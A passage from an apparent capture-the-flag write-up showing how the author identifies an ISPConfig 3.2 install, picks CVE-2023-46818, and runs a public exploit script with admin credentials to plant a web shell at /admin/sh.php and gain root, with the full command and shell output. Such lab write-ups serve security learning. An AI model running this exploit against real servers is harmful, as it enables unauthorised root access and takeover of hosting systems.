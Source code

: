 also the login page's source code shows this version `version 3.2`
```html
<link rel='stylesheet' href='../themes/default/assets/stylesheets/ispconfig.css?ver=3.2' />
```

Furthermore, the monitor page shows another version `version 3.2.1'
![Pasted image 20250527202256](MediaFiles/Pasted%20image%2020250527202256.png)

Next by searching ipsconfig vulnerabilities, i found this one `CVE-2023-46818`
which appears to affect ISPConfig <= 3.2.11
![Pasted image 20250527202354](MediaFiles/Pasted%20image%2020250527202354.png)

and by using this script that exploits this vulnerability: 
https://github.com/ajdumanhug/CVE-2023-46818
```shell
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse
```
i grabbed the root flag!
```shell
└─# python3 CVE-2023-46818.py http://localhost:9000 admin slowmotionapocalypse
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_1d8e96087d21652cb7f32dc9
[+] CSRF Key: b7739948106f89f5e7d331be30036758eaab5be0
[+] Injecting shell payload...
[+] Shell written to: http://localhost:9000/admin/sh.php
[+] Launching shell...

ispconfig-shell# whoami
root

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)

ispconfig-shell# pwd
/usr/local/ispconfig/interface/web/admin

ispconfig-shell# cd


ispconfig-shell# pwd
/usr/local/ispconfig/interface/web/admin

ispconfig-shell# cd /root
```